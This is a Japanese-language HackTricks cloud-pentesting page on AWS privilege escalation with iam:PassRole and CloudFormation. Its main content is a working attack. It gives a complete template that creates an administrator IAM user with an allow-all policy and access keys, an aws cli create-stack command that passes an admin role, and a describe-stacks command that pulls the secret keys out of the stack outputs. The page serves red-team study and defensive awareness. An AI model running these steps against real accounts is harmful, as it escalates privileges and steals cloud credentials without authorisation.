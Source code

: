 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

攻撃者は例えば、**管理者**ユーザーの**キーを生成する** **cloudformationテンプレート**を使用することができます:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description" : "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": "*"
}]
},
"Users": [{
"Ref": "AdminUser"
}]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": [
"MyUserKeys",
"SecretAccessKey"
]
},
"Description": "Secret Key of Admin User"
}
}
}
```
次に**クラウドフォーメーションスタックを生成**します：
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**数分待って** スタックが生成されるのを待ち、次に **出力を取得** します スタックの **資格情報が保存されている** ところ:
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### References

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
